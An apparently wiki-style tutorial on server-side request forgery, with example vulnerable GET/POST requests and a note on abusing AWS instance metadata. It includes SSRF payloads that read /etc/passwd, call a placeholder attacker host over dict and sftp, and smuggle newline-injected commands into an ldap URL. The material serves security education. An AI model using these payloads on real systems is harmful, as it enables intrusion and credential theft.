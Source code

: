 # Server-side request forgery

Server-side request forgery \(SSRF\) exploits the trusted relationship between a web server and other backend systems which are not normally accessible to an attacker \(e.g. because of firewalls or application rules\). They are particularly dangerous in cloud infrastructure like AWS, because SSRF allows an attacker to query internal services like [Amazon's metadata API](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) for credentials and other sensitive data.

## Techniques

### Basic

Generally, you'll be looking for poorly-sanitized parameters which accept URLs, either in `GET` or `POST` requests. In the examples below, `localhost` is used in the URL to access to data and services which are only accessible via the local network.

Example `GET` request with a vulnerable open redirect:

```text
http://[host]/page?url=http://localhost/api/getuser/id/1
```

Example `POST` request with a similarly unsanitized URL parameter:

```text
POST /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

url=http://localhost:123
```

Some SSRF attacks will return a response that you can see on the vulnerable website, but others may be blind.

You can also test protocols other than HTTP:

```text
http://[host]/page.php?url=file:///etc/passwd
http://[host]/page.php?dict://[evilhost]:1337/
http://[host]/page.php?url=sftp://[evilhost]:1337/
http://[host]/page.php?url=ldap://localhost:1337/%0astats%0aquit
```

### Attacking AWS with SSRF

Amazon's AWS has an internal metadata service which can be queried from any instance. Attackers can use SSRF vulnerabilities to retrieve instance information and in some cases make changes to the infrastructure. [Amazon's CLI](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-instances.html) performs a similar function.



## Further reading

* [SSRF: Web Security Academy](https://portswigger.net/web-security/ssrf)
* [SSRF: types and exploits](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)
* [SSRF and the CapitalOne breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [Nimbostratus: tools for fingerprinting and exploiting Amazon](https://andresriancho.github.io/nimbostratus/)
* [SSRF payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

